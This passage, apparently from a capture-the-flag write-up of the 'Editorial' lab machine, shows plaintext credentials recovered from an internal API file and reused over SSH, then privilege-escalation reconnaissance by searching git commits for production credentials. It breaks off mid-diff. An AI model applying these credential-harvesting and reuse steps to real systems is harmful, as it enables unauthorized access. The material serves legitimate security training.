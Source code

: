 When `/api/latest/metadata/messages/authors` was hit, we got an interesting file downloaded to out system and the content of that file goes as:
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ cat 08954768-ec71-48e6-82e6-771882a672c3| jq              
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
from this file we have username:dev & password:dev080217_devAPI!@

Since SSH is running on port 22, let's try this creds and hurray, we got logged in as dev. Now easily we can grab user flag using the following commands.
![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/editorial/user_flag.png)

## Previlege Escalation

Let's check what dev can do .
```bash
dev@editorial:~$ sudo -l
[sudo] password for dev:
Sorry, user dev may not run sudo on editorial.
```

Nothing at all 🥲

Let's check /app directory.
```bash
dev@editorial:~$ cd apps/
dev@editorial:~/apps$ ls
dev@editorial:~/apps$ ls -al
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 5 dev dev 4096 Jun 24 13:06 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```
So this is a git repository. let's checkout logs. It has plenty of commits. Cchecking out all the commits one by one, `commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` contains some information about credentials of prod.
```bash
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
```